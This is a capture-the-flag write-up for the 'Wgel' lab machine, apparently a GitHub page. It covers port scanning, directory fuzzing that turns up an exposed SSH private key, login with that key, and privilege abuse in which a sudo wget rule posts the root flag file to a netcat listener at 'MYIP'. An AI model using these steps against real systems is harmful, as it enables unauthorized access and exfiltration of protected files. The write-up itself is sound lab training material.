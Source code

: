 # Wgel CTF

Macinne consist in access to the server and privsec via wget.

## Nmap scan

```bash
 $ nmap -sC -sV -T4 10.10.185.51
Nmap scan report for 10.10.185.51
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This machinne have the port 80 and 22.

## Enumeration

Open browser and access to the ip, is a Apache Default site.

![Foto()]

If we go deep more and view the source code we look a name that is a possible Username.

![Foto()]

Then ** Jessie ** is a possible username.

## Fuzzing to the website

``` bash

$ gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/
```
The result is that and the sitemap directory catches my attention.
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/sitemap (Status: 301)
```
![Sitemap()]

Finding into the source code I didn't find anything.
<br>
We keep listing into the sitemap directory.

```bash
$  gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/sitemap
```
In this search i found ** /.ssh ** Directory.

![.ssh directory()]

We Download the file and give the respective permissions

```bash
$ wget http://10.10.185.51/sitemap/.ssh/id_rsa ;chmod 600 id_rsa
```
## access to the ssh

As we already found the possible ssh information, we proceed to access to the ssh.

Username: Jessie
Password: id_rsa file

```bash
$ ssh -i id_rsa jessie@10.10.185.51   
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Successfully, we access to the machinne.

### user.txt

```bash
jessie@CorpOne:~/Documents$ cat user_flag.txt 

057c67131c3d5e42d***************
```
## Privsec

We Check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
We go to the GTFObins(https://gtfobins.github.io/gtfobins/wget/#file-upload) File Upload

![Wget Exfiltrate root flag()]

We put our machine to listen with netcat and prepare to receive the packet.

### Our Machinne

```bash
$ nc -lvnp 5689
```
### Victim Machinne

```bash
$ sudo /usr/bin/wget --post-file /root/root_flag.txt MYIP:5689/
```

### Get root flag

```bash
nc -lvnp 5689                                                   13:03:32
listening on [any] 5689 ...
connect to [MYIP] from (UNKNOWN) [10.10.185.51] 58358
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: MYIP:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1da***************

```

